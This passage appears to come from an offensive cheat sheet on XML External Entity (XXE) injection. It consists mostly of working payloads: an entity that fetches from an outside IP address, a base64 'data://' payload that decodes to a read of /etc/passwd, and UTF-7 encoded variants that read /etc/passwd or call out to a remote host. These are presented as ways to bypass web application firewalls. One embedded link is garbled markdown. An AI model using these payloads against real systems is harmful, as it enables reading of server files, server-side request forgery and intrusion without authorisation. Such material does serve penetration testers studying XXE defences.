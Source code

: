 ```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]>
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

Another example can be found [here](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2).

## WAF & Protections Bypasses

### Base64

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

This only work if the XML server accepts the `data://` protocol.

### UTF-7

You can use the \[**"Encode Recipe**" of cyberchef here ]\(\[[https://gchq.github.io/CyberChef/#recipe=Encode_text%28'UTF-7](https://gchq.github.io/CyberChef/#recipe=Encode_text%28'UTF-7) %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4)to]\([https://gchq.github.io/CyberChef/#recipe=Encode_text%28'UTF-7 %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to](https://gchq.github.io/CyberChef/#recipe=Encode_text%28%27UTF-7%20%2865000%29%27%29&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to)) transform to UTF-7.

```xml
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
